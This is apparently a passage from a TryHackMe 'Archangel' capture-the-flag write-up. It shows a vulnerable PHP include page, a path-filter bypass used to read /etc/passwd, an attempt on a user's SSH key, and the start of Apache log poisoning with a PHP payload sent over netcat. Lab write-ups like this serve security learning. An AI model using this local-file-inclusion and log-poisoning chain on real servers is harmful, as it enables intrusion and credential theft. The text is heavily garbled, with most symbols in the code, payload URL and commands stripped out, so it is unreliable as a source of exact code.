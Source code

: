 After decoding the base64 data  we are met with the contents of the test php file s source code 

   highlight php   
  DOCTYPE HTML   
 html   
  
 head     title INCLUDE  title     h1 Test Page  Not to be Deployed  h1      button   a   a href   test php view  var www html development testing mrrobot php   button id  secret  Here is a button  button   a  br          php              FLAG  thm explo1t1ng lf1            function containsStr  str   substr                  return strpos  str   substr      false   
                        if isset   GET  view                 if  containsStr   GET  view                containsStr   GET  view      var www html development testing                        include   GET  view     
            else                 echo  Sorry  Thats not allowed    
              
                       div   
  body   
  
  html 
   endhighlight   

We can see that the PHP file is looking for the strings         and  var www html devleopment testing exist in the URL   More precisely  if there is a         string in the URL or the URL does not have  var www html development testing  then the detection will trigger  We can bypass this by using          which functions just like         

URL 

http   mafialive thm test php view  var www html development testing                         etc passwd

Output 

     reports Archangel image10 png 

The payload successfully works  and we are able to include any local file that we have read permissions to  From the  etc passwd file  we see that there is a local user by the name of archangel  Seeing as there is an open ssh port on the box  I tried to read the user s private ssh key to login as the user  However  the attempt to include this file proved to be unsuccessful  this may be due to us not having proper permissions  or the archangel user may not have a private ssh key  

Although we can include sensitive files on the vulnerable system  it is necessary to convert this LFI vulnerability to an RCE  Remote Code Execution  vulnerability in order to get a shell on the target 

     Log Poisoning

This can be done by log poisoning  1    ftnt1   Looking back at the results of the  nmap scan   h 5u2vk3e7kgnj   we can see that the http service is running the Apache version  It follows that there is most likely an apache log file at  var log apache2 access log which can be leveraged to gain RCE  After verifying the existence of this file  I used netcat to poison the log file 

   highlight bash   
   0xd4y Writeup     business tryhackme easy linux archangel         
      nc mafialive thm 80  
GET    php phpinfo                                           HTTP 1 1 400 Bad Request  
Date  Sat  01 May 2021 02 27 27 GMT  
Server  Apache 2 4 29  Ubuntu                                                           
Content Length  301    
Connection  close                                                                      
Content Type  text html  charset iso 8859 1                                                                                     DOCTYPE HTML PUBLIC     IETF  DTD HTML 2 0  EN              html  head               title 400 Bad Request  title      head  body             h1 Bad Request  h1                 p Your browser sent a request that this server could not understand  br                p                   hr                   address Apache 2 4 29  Ubuntu  Server at localhost Port 80  address   
  body   html                              
   endhighlight   
